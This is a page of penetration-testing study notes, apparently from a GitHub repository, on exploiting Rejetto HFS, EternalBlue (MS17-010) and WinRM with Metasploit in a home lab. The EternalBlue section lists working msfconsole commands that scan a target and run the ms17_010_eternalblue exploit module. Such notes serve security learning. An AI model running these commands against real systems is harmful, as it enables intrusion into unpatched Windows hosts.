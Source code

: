 ## [Exploitation](https://www.offsec.com/metasploit-unleashed/exploits/) with MSF

### HFS (HTTP File Server)

A **HFS** (HTTP File Server) is a file and documents sharing web server.

- Rejetto HFS - free open source HTTP file server

> 🔬 [HFS - MSF Exploit](3-metasploit/hfs-msf-exp.md)

### SMB - MS17-010 EternalBlue

- [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)
- [EternalBlue VA](../assessment-methodologies/4-va.md#eternalblue)
  - **EternalBlue** takes advantage of a Windows SMBv1 protocol vulnerability
  - Patch was released in March 2017

> 🔬 Check the [Lab 2 - Eternal Blue here](1-system-attack/windows-attacks/smb-psexec.md)

- Some MSF useful commands from my Home Lab (`Kali VM + Win 2008_R2 Server`)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.168.31.131
setg RHOST 192.168.31.131
workspace -a EternalBlue

db_nmap -sS -sV -O 192.168.31.131
```

```bash
search type:auxiliary EternalBlue
use auxiliary/scanner/smb/smb_ms17_010
options
run

search type:exploit EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
options
run
```

### WinRM

- Identify WinRM users with MSF and exploit WinRM by obtaining access credentials.
- Default WinRM HTTP port is **`5985`** and HTTPS **`5986`**

> 🔬 [WinRM Attack lab](1-system-attack/windows-attacks/winrm.md)

```bash
service postgresql start && msfconsole -q
```
